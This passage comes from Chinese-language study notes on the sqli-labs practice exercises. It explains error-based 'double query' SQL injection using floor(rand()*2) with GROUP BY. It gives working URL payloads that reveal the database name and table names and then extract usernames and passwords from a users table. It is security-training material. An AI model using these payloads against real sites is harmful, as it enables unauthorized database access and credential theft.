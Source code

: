             查询到临时表中记录有，所以次数加一，当进行到第三次查询的时候floor(rand())函数产生结果0，

            临时表中没有，于是乎进行第二次插入，插入时再次执行随机数函数产生结果为1，临时表中有字段为1的值，

            由于UNIQUE限制不能有相同字段出现，那么此次插数据时就会发生错误。

            我们不将想要显示的值直接显示，而是用concat函数将其与错误信息的输出进行拼接，就可以在错误信息中看到想要的内容。(个人初步理解，写得有点乱)

*  步骤

        1.还是单引号先检测发现页面回传不对，猜测可能存在单引号注入

        2.使用二次查询注入手法构造payload:

        `?id=0' union select null,count(*),concat((select database()),floor(rand()*2))as a from information_schema.schemata group by a --+`

    [![0j10yt.jpg](https://s1.ax1x.com/2020/10/18/0j10yt.jpg)](https://imgchr.com/i/0j10yt)

        该代码查询当前所在的数据库security，接下来要对其中的表进行查询

        payload:

        `?id=0' union select null,count(*),concat((select table_name from information_schema.columns where table_schema='security'),floor(rand()*2))as a from information_schema.columns group by a--+`

        但是呢，如图，我们现在又遇到了新的问题，就是返回的结果不止一行，但是要求只显示一行的结果，我们这里就可以利用SQL语句LIMIT属性对返回的结果进行行限制


    [![0j1BOP.jpg](https://s1.ax1x.com/2020/10/18/0j1BOP.jpg)](https://imgchr.com/i/0j1BOP)

        payload:

        `?id=0' union select null,count(*),concat((select table_name from information_schema.columns where table_schema='security' limit 0,1),floor(rand()*2))as a from information_schema.columns group by a--+`


        结果回显


    [![0j1wQI.jpg](https://s1.ax1x.com/2020/10/18/0j1wQI.jpg)](https://imgchr.com/i/0j1wQI)

        接着，用同样的方法对显示位置进行选择，直到对所有的表进行输出一遍。

        找到users表，对其中的内容进行输出

        找到跟用户有关的两个关键字段username和password，然后选中进行输出，但是只能输出一条结果

        `id=0' union select null,count(*),concat((select concat('|',username,'~',password) from users limit 0,1),floor(rand()*2) as a from information_schema.columns group by a--+`



***
# less 6(双查询注入双引号闭合字符型)

*  原理

        仍旧是双查询注入，只不过是改变了闭合方式

*  步骤

